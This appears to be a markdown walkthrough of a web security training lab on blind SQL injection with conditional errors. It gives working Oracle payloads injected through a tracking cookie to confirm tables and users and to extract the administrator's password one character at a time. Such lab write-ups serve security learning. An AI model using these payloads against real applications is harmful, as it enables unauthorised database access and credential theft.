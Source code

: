 # Blind SQL injection with conditional errors
# Objective
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.\
\
The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.\
\
The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.\
\
To solve the lab, log in as the administrator user.


# Solution

Expected query structure concerning TrackingId:\
```
SELECT TrackingId FROM TrackingIdTable WHERE TrackingId='8e4W3X5FoxstfJs7'
```

## Identyfing database type (vendor)
```
Cookie value: TrackingId=19nxWi7TLGPOQ4bv' || (select '') ||'
```
|![](Images/image-14.png)|
|:--:| 
| Returns Error |

```
Cookie value: TrackingId=19nxWi7TLGPOQ4bv' || (select '' from dual) ||'
```
|![](Images/image-15.png)|
|:--:| 
| Payload worked. It is Oracle database |

```
Application is vulnerable - TrackingId=19nxWi7TLGPOQ4bv' || (select '' from tablethatdoestexist) ||'
```
|![](Images/image-16.png)|
|:--:| 
| Returns Error |

## Checking that the users table exists
```
Cookie value: TrackingId=19nxWi7TLGPOQ4bv' || (select '' from users where rownum=1) ||'
```
Query above returns code 200 OK. It confirm that users table exists. \
`where rownum=1` is important because otherwise response would be HTTP 500. It limits result to 1. Otherwise application would output empty entry for every entry in database breaking the query.

## Checking that the user administrator exists
```
Cookie value: TrackingId=19nxWi7TLGPOQ4bv' || (select '' from users where username='administrator') ||'
```
Using above query it is not possible to verify whether administrator user exists.

```
Test payload 1: ' || (SELECT CASE WHEN (1=69) THEN TO_CHAR(1/0) ELSE '' END FROM dual) ||'
```
|![](Images/image-17.png)|
|:--:| 
| *Test payload 1* |

```
Test payload 2: ' || (SELECT CASE WHEN (69=69) THEN TO_CHAR(1/0) ELSE '' END FROM dual) ||'
```
|![](Images/image-18.png)|
|:--:| 
| *Test payload 2* |

```
TrackingId=19nxWi7TLGPOQ4bv' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator') ||'
```
Order of execution of above query:
1. `FROM users where username='administrator'` is evaluated. 
2. If given user exist then the rest of the query is evaluated - `SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE ...`

|![](Images/image-19.png)|
|:--:| 
| *User administrator exists* |

|![](Images/image-20.png)|
|:--:| 
| *User does NOT exist* |

## Retrieving password length of administrator’s password
Administrator’s password length is 20
```
Cookie value: TrackingId=19nxWi7TLGPOQ4bv' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and length(password)>1) ||'
```

![](Images/image-21.png)
![](Images/image-22.png)

## Retrieving administrator’s password
```
Cookie value: TrackingId=19nxWi7TLGPOQ4bv' || (select case when (1=1) then TO_CHAR(1/0) else '' end from users where username='administrator' and SUBSTR(password,1,1)='a') ||'
```
![](Images/image-23.png)

HTTP 500 Response Code -> Correct letter \
HTTP 200 Response Code -> Wrong letter

